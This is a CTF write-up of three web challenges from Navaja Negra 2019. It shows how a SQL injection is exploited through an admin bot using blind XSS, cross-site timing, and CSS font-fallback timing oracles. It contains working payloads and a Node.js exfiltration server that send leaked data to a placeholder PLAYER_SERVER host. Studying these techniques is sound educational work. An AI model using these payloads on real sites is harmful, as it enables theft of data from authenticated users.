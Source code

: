 # Writeup x-Oracle Challenges (Navaja Negra 2019 CTF)

> __Preface:__ Navaja Negra is a local security conference celebrated every year in Albacete (Spain). Traditionally we have been organizing small CTFs for it. These tasks are a series of web challenges for this year: https://nn9ed.ka0labs.org/.

The challenges are based on a vanilla SQL injection that must be exploited by a bot with admin role. The [source code](https://gist.github.com/cgvwzq/c78aa5fc228225a2779745f2705eeab5) is provided, so it is easy to spot the SQLi.

Complete source code: https://github.com/cgvwzq/ctf_tasks/tree/master/nn9ed

## x-Oracle-v0

The first challenge can be solved by chaining the SQL injection with a Blind XSS. The CSP configuration allows `unsafe-inline` and `img-src *`, so it is easy to force the bot to exploit the SQL injection and exfiltrate the flag to an external server:

```html
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```

Easy Peasy, here's your flag: `nn9ed{y0u_b3tt3r_warmUp_your_w3b_j4king_sk1lls}`

## x-Oracle-v1

This challenges includes a patch for the previous bug:

```
< res.setHeader('Content-Security-Policy', "default-src 'self' 'unsafe-inline'; img-src *; style-src *; font-src *");
---
> res.setHeader('Content-Security-Policy', "default-src 'self'; img-src *; style-src * 'unsafe-inline'; font-src *");
```

With this stricter CSP we cannot inject <script> tags or run JavaScript, so things get a bit more complicated. However, we can still try to exploit a time-based SQLi.

While there are many ways to solve this challenge (any solution for x-Oracle-v2 would also work here), our intended solution exploited a cross-site timing attack.

First, we need to redirect the bot to a website controlled by us ---easily done with `<meta http-equiv=refresh>`--- because this action is not affected by the CSP policy. From there we can use any method for measuring the loading time of a cross-origin resource.

In our case we used iframes and the onload event to extract the flag character by character. Finally we simply exfiltrate the flag via an `<img>` request.

```html
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
	x = escape(x.replace(/_/g, '\\_'));
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`; 
}

function gen2(x) {
	x = escape(x);
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) { 
	let h = performance.now();
	f.location = (end ? gen2(word) : gen(word));
	await new Promise(r => {
		g.onload = r; 
	});
	let diff = performance.now() - h;
	return diff > 300;
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
	let prefix = 'nn9ed{';
	while (true) {
		let i = 0;
		for (i;i<alphabet.length;i++) {
			let c = alphabet[i];
			let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
			console.log(prefix, c, t);
			if (t) {
				console.log('FOUND!')
				prefix += c;
				break;
			}
		}
		if (i==alphabet.length) {
			console.log('missing chars');
			break;
		}
		let t = await query(prefix+'}', true);
		if (t) {
			prefix += '}';
			break;
		}
	}
	new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
	console.log(prefix);
}

run();
</script>
```

The flag: `nn9ed{t1ming_att4cks_ar3_th3_best_att4cks}`

## x-Oracle-v2

Now cross-site timing attacks are mitigated by SameSite cookies (this was supposed to be a huge hint for the bug in v1):

```
< cookie: { secure: false }
---
> cookie: { secure: false, sameSite: 'strict' }
```

Again, CSP only allows imgs, styles and fonts. Fonts? Yep! Fonts!

Unfortunately, SameSite cookies mean that we can not exploit cross-site timing attacks anymore ---the admin's cookie will not be send on the request.

Instead, our intended solution uses "fonts"! This summer we spend some time discussing about how to measure time purely in CSS, and after some reading, we found out that CSS font urls have a fallback mechanism that could be abused for that. This approach has several limitations, but it seemed fun enough for a CTF task :)

Specifically we are interested in `font-display`, according to the [spec](https://drafts.csswg.org/css-fonts-4/#font-display-desc):

>...[font-display] determines how a font face is displayed, based on whether and when it is downloaded and ready to use"

It supports 5 options:

* `auto`: The display policy is user-agent-defined (most cases same as `block`)
* `block`: Gives the font face a short __block period__ (3s is recommended in most cases) and an infinite __swap period__.
* `swap`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and an infinite __swap period__.
* `fallback`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and a short __swap period__ (3s is recommended in most cases).
* `optional`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and a 0s __swap period__.

And from the moment that the user-agent tries to download a font, the font-face starts a timer that will advance through 3 periods:

* __Block period__: if the font face is not loaded, any element attempting to use it must instead render with an invisible fallback font face. If the font face successfully loads during the block period, the font face is then used normally.
* __Swap period__: if the font face is not loaded, any element attempting to use it must instead render with a fallback font face. If the font face successfully loads during the swap period, the font face is then used normally.
* __Failure period__: if the font face is not yet loaded when this period starts, it’s marked as a failed load, causing normal font fallback. Otherwise, the font face is used normally.

In practice, we can expect the following scenario:

```css
@font-face {
    font-family: Leak;
    src: url(http://url-a/), url(http://url-b);
    font-display: optional;
}
div.leak {
    font-family: Leak;
}
```

Our font will try to load the first resource, since we are using `font-display: optional`, the block period has only 100ms to load the resource. If the requests fails during this time, the fallback font will be requested; otherwise, it will skip the swap period, mark the load as failed, and fallback to the normal font.

This means that if the first request takes too long to resolve, the second request is never done. Or in other words, we have our oracle in pure CSS!

From this point, is relatively easy to implement a tree search based on the time-based SQLi:

```css
@font-face {
    font-family: Leak;
    src:url(http://x-oracle-v2.nn9ed.ka0labs.org/admin/search/x%27union%20select%20if%28flag%20regexp%20%27nn9ed%7B%5B%5C_abcdel%5D.*%7D%27,0,sleep%280.1%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), url(http://PLAYER_SERVER/leak?pre=nn9ed%7B&range=%5C_abcdel);
    font-display: optional;
    unicode-range: U+005f,U+0061,U+0062,U+0063,U+0064,U+0065,U+006c;
}

@font-face {
    font-family: Leak;
    src:url(http://x-oracle-v2.nn9ed.ka0labs.org/admin/search/x%27union%20select%20if%28flag%20regexp%20%27nn9ed%7B%5Bfghijs%5D.*%7D%27,0,sleep%280.1%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), url(http://PLAYER_SERVER/leak?pre=nn9ed%7B&range=fghijs);
    font-display: optional;
    unicode-range: U+0066,U+0067,U+0068,U+0069,U+006a,U+0073;
}
div { font-family: Leak; }
```
When the admin visits a page with the following content, it will ping back with the subset that contains the first character:

```html
<div>_abcdefghijklmnopqrstuvwxyz</div>
<style>@import url(http://PLAYER_SERVER/)</style>
```

One drawback of this injection is that it is case insensitive, so we might need to refine it, but for illustration purposes is enough.

The following PoC uses recursive CSS import (for more details see [this](https://github.com/cgvwzq/css-scrollbar-attack/), [this](https://github.com/cgvwzq/css-scrollbar-attack/), or [this](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)) with the previous font fallback trick, to extract the flag in ~5s with a single visit of the admin:

```js
const http = require('http');
const url = require('url');
const port = 80;

const TARGET = "http://x-oraclev-2.nn9ed.ka0labs.org";
const HOSTNAME = `http://PLAYER_SERVER:${port}`;

const MAX_CON = 2;

Array.prototype.chunks = function(n) {
	let s = Math.floor(this.length / n);
    let ret = [], i;
	if (this.length <= n) {
		return this.map(e=>[e]);
	}
	for (i=0; i<s*n; i += s) {
		ret.push(this.slice(i,i+s));
    }
	for (i; i<this.length; i++) {
		ret[i%ret.length].push(this[i]);
    }
    return ret;
}

let nextResponse, pre, ranges, dic, c = 1;

const requestHandler = async (request, response) => {
    let req = url.parse(request.url, url);
    log('\treq: %s', request.url);
	response.setHeader('Access-Control-Allow-Origin','*');
    switch (req.pathname) {
        case "/css":
			pre = decodeURIComponent(req.query.pre);
			dic = decodeURIComponent(req.query.dic).split('');
			ranges = dic.chunks(MAX_CON);
			genResponse(response, pre, ranges);
            break;
		case "/next":
			console.log('delay next response');
			nextResponse = response;
			break;
		case "/leak":
			console.log(req.query.pre, req.query.range);
			if (parseInt(req.query.c) < c) {
				response.end();
				break;
			}
			if (req.query.range.length == 1) {
				pre += decodeURIComponent(req.query.range);
				ranges = dic.chunks(MAX_CON);
				c += 1;
				console.log('got char!');
			} else {
				ranges = decodeURIComponent(req.query.range).split('').chunks(MAX_CON);
			}
			if (nextResponse) {
				genResponse(nextResponse, pre, ranges);
			} else {
				console.log('shit...');
			}
            response.end();
			break;
        default:
            response.end();
    }
}

function cssEscape(i) {
	return escape(i);
}

const genResponse = (response, pre, ranges) => {
	let css = '@import url(' + HOSTNAME + '/next?' + Math.random() + ');\n\n' +
	ranges.map(e => ('@font-face { font-family: Leak;\n' +
		'src:url(' + TARGET + '/admin/search/x%27union%20select%20if%28cast%28flag%20as%20binary%29%20regexp%20%27' + cssEscape(pre) + '%5B' + cssEscape(e.join('')) + '%5D.*%7D%27,0,sleep%280.2%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), ' +
		'url(' + HOSTNAME + '/leak?pre=' + cssEscape(pre) + '&range=' + cssEscape(e.join('')) + '&c=' + c + '); font-display: optional; unicode-range: ' + e.map(x => ('U+' + ('0000'+x.charCodeAt(0).toString(16)).substr(-4))).join(','))+';}').join('\n') +
		'\n' + 'div' + ' { font-family: Leak; }';
    response.writeHead(200, { 'Content-Type': 'text/css'});
    response.write(css);
    response.end();

}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
    if (err) {
        return console.log('[-] Error: something bad happened', err);
    }
    console.log('[+] Server is listening on %d', port);
})

function log() {
    console.log.apply(console, arguments);
}
```

The code is a bit unestable ---the browsers send some requests whose reason I still need to figure out---, but if we ignore them (thanks to the `c` param), in the worst case a few retries give us the flag (in lower case): `nn9ed{css_fallback_rulez}`.

After some manual adjustment: `nn9ed{cSS_fallback_rulez}`.

Interestingly, we can do better than a binary search by splitting the alphabet in more fonts. However, this number is limited by the browser's maximum number of connections per hosts (6 in most modern browsers). Using more than that will make the browser serialize fruther requests and the timing measurements will become useless.

## Unexpected solutions

One of the best perks of organizing a CTF is to see other people resolving your tasks in a different way than you intended. And this occasion wasn't an exception :)

We were aware that some sources of contention or serialization during parsing or resource loading could be used to solve this tasks. For a 2006 example, see Jeremiah Grossman's [non-JS port scanner](https://blog.jeremiahgrossman.com/2006/11/browser-port-scanning-without.html). Only 13 years ago... Feeling old? T_T

But nevertheless we got a few very interesting submissions. All of them solving both v1 and v2 at once.

### Font `unicode-range` + Alternative text

The first solution comes from the hand of [@terjanq](https://twitter.com/terjanq), who essentially destroyed the CTF solving all the tasks in just a few hours. Kudos!

He leverages a known `unicode-range` [trick](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) in a very smart way, to detect whether the alternate text of an `object` element has been rendered (on error) or not (on load). With that he is able to exploit an error based SQLi instead of a time-based. For more details see his [PoC](https://gist.github.com/terjanq/33bbb8828839994c848c3b76c1ac67b1).

Similarly, [Borja Martinez](https://twitter.com/Qm9yamFN) ---who heroically managed to solve the challenge at 6.20 AM--- used the `<img alt="A" src="http://victim/">` instead of `<object data="http://victim/">A</object>`.

In this case, the alternative text of the image is always rendered, but the browser only does that once the resource is resolved. By requesting a controlled resource before (time_start), and calculating the difference with the font load request (time_end), he obtains the delay of the loaded resource w/o JavaScript.

### `<img>` stalling `<meta http-equiv=refresh>`
The second person to solve the challenge was [Luan Herrera](https://twitter.com/lbherrera_), who used the fact that `<meta http-equiv=refresh>` will only take place when the previous images have finished loading.

Like Borja, he first requests a controlled resource (time_start), sets the stalling `<img>` tag, and the `<meta>` refresh tag pointing to his server to obtain the time delay.

Great work.

## Thanks for reading!
by [@cgvwzq](https://twitter.com/cgvwzq) and [@TheXC3LL](https://twitter.com/TheXC3LL)
